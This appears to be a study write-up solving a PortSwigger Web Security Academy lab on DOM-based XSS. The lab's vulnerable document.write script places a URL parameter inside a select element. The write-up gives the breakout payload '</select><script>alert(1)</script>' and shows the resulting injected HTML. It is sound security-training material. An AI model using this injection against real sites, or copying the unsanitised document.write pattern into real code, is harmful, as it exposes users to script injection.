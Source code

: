 ```yaml
---
title: LAB 0.4
aliases:
  - LAB 0.4
tags:
  - XSS
  - Labs
  - DOM-Based
  - Practitioner
description: "Lab: DOM XSS in document.write sink using source location.search inside a select element"
---
```

# Lab: DOM XSS in `document.write` sink using source `location.search` inside a select element
---
[LAB](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element)

This lab contains a DOM-based cross-site scripting vulnerability in the stock checker functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The `document.write` function is called with data from `location.search` which you can control using the website URL. The data is enclosed within a select element.

To solve this lab, perform a cross-site scripting attack that breaks out of the select element and calls the `alert` function.

![[images/Pasted image 20241228135118.png]]

# Solution
---
In this lab, we’ll tackle a DOM-based XSS vulnerability in the stock checker functionality. By manipulating the `storeId` parameter in the URL, we can inject malicious JavaScript that executes in the victim’s browser. Let’s break it down step by step.

---

## Understanding the Lab Setup

Access the lab, and you’ll see a simple shopping page with various products. Click on the **"View details"** button for any product to navigate to its page.

Scroll down to find the **"Check stock"** button along with a drop-down list of cities. This is where the vulnerability lies.

![[images/Pasted image 20241228135435.png]]

---

## Examining the Vulnerable Script

Right-click on the cities drop-down and select **Inspect** to open the Developer Tools. Inside the HTML, locate the `<script>` element above the `<select>` element. Here’s what you’ll see:

```html
<script>
    var stores = ["London","Paris","Milan"];
    var store = (new URLSearchParams(window.location.search)).get('storeId');
    document.write('<select name="storeId">');
    if(store) {
        document.write('<option selected>'+store+'</option>');
    }
    for(var i=0;i<stores.length;i++) {
        if(stores[i] === store) {
            continue;
        }
        document.write('<option>'+stores[i]+'</option>');
    }
    document.write('</select>');
</script>
```

The script uses `document.write` to dynamically add an `<option>` element to the drop-down if the `storeId` parameter is present in the URL. This functionality allows us to control the content of the `<select>` element, making it vulnerable to XSS.

---

## Injecting Data into the Drop-Down

Add a `storeId` parameter to the end of the URL with a custom string value:

```plaintext
&storeId=test
```

For example, the final URL would look like this:

```plaintext
https://0a40007d03d8a7f2800d1248003a00d1.web-security-academy.net/product?productId=1&storeId=test
```

Press **Enter** to refresh the page. Scroll down to the drop-down and inspect it again. You’ll notice that your custom string is now part of the `<select>` element:

```html
<select name="storeId">
    <option selected="">test</option>
    <option>London</option>
    <option>Paris</option>
    <option>Milan</option>
</select>
```
![[images/Pasted image 20241228135929.png]]

---

## Crafting the XSS Payload

To exploit the vulnerability, we need to break out of the `<select>` element and inject a malicious script. We’ll close the `<select>` tag and insert an `<script>` tag with an  `alert` function. Add the following payload to the `storeId` parameter:

```html
</select><script>alert(1)</script>
```

The final URL will look like this:

```plaintext
https://web-security-academy.net/product?productId=1&storeId=test</select><script>alert(1)</script>
```


---

## Observing the Exploit in Action

Refresh the page with the crafted URL. The browser will execute the injected payload, and a pop-up window will appear displaying the alert message.

![[images/Pasted image 20241228140834.png]]

---

## Verifying the Injection

Inspect the HTML again, and you’ll see that the `<script>` tag has been successfully injected outside of the `<select>` element:

```html
<select name="storeId">
    <option selected="">M4rdukWasH3re</option>
</select>
<script>alert(1)</script>
<option>London</option>
<option>Paris</option>
<option>Milan</option>
```

This demonstrates that the page structure was broken, and our payload executed successfully.

---

Congratulations! You’ve successfully exploited and understood a DOM-based XSS vulnerability. Keep practicing, and continue building your expertise in web application security!